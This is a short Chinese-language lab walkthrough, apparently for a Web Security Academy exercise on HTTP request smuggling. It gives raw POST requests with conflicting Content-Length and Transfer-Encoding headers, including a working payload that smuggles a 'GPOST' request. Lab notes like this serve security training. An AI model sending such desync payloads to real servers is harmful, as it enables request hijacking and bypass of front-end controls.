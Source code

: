 ```
POST / HTTP/1.1
Host: 0ac800f904e2758182895256002800f8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 3
Transfer-Encoding: chunked

1
G
0


```

这样构造不行

![image-20240430133840154](images/3.png)

得到的是G0POST，我们应该走私一个完整的请求，为了计算块的大小，用burp的HTTP Request Smuggler插件

![image-20240430133946649](images/4.png)

得到

```
POST / HTTP/1.1
Host: 0ac800f904e2758182895256002800f8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
```